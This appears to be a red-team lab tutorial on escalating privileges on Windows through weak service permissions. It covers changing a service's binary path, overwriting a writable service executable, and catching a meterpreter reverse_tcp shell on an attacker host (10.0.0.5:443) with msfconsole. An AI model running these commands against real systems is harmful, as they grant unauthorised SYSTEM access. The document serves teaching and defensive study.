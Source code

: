 # Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code title="attacker@victim" %}
```
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode %}

Below indicates that the user `mantvydas` has full access to the service:

![](<../../.gitbook/assets/Annotation 2019-05-21 205403.png>)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% code title="attacker@victim" %}
```
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 205633.png>)

Let's fire up a multihandler in mfsconsole:

{% code title="attacker@kali" %}
```
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

...and start the vulnerable service:

{% code title="attacker@victim" %}
```
.\sc.exe start evilsvc
```
{% endcode %}

..and enjoy the meterpreter session:

![](<../../.gitbook/assets/Annotation 2019-05-21 210027.png>)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% code title="attacker@kali" %}
```
run post/windows/manage/migrate
```
{% endcode %}

Even though the service failed, the session was migrated and saved:

![](<../../.gitbook/assets/Annotation 2019-05-21 210541.png>)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% code title="attacker@victim" %}
```
sc.exe qc evilsvc
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 210916.png>)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for (M)odify or (F)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code title="attacker@victim" %}
```
icacls C:\service.exe
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 211128.png>)

Since c:\service.exe is (M)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code title="attacker@victim" %}
```
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-21 211232.png>)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](<../../.gitbook/assets/Annotation 2019-05-21 211349.png>)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](<../../.gitbook/assets/Annotation 2019-05-21 212438.png>)
